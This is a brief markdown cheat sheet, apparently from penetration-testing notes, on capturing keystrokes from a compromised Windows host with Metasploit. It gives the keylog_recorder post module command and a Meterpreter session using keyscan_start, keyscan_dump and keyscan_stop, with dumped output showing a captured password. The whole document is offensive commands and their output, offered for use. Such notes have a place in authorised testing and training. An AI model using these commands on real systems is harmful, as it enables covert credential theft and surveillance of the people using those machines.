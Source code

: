 # Metasploit

## 01 - Post Module

`meterpreter > run post/windows/capture/keylog_recorder`

## 02 - Meterpreter

```
meterpreter > keyscan_start -h
Usage: keyscan_start <options>
Starts the key logger

OPTIONS:

    -h  Help Banner.
    -v  Verbose logging: tracks the current active window in which keystrokes are occuring.

meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes...
my password is Johnny1997!<CR>


meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```